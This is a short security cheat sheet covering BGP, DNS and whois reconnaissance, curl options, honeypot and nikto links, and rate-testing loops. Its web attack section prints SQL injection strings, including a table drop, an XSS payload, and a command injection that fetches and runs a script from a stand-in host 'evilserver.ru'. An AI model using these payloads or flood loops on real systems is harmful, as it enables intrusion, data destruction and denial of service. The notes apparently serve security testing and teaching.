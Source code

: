 

### BGP
https://ipinfo.io/AS19905
https://bgp.he.net/AS19905


### DNS

dig -t NS 


### Explore Infrastructure

whois <domainname>
dig -t NS <domainname>
dig <domainname>
dig www.domainname
whois <IP address>
IPInfo Search for ASN


### Web Application Attacks

SQL Injection: foo‘ or 1=1;--

SQL Injection: foo‘; drop table students;--

Command Injection: cd /tmp; wget http://evilserver.ru/runme.sh chmod 666 /tmp/runme.sh; bash /tmp/runme.sh; rm /tmp/runme.sh

Cross-Site Scripting: <script>alert(‘xss’);</script>


### Curl Commands

Show what’s going on: -v

Ignore TLS errors: –insecure

Use a different user-agent: -A “Smith User-Agent”

Send a specific header: -H “Referer: https://www.foo.com/”

Don’t show the object: -o /dev/null


### Attack Encoding

https://www.urlencoder.org/


### Honeypots

T-Pot https://github.com/telekom-security/tpotce
dnsenum https://github.com/fwaeytens/dnsenum

### Web Scanning

nikto https://cirt.net/Nikto2
nikto -h <target url>

### Rate Control Testing

one line: while true; do curl -v -o /dev/null  http://foosite.rybolov.net/; done

#!/bin/bash
while true;
do
  wget <target url>;
done
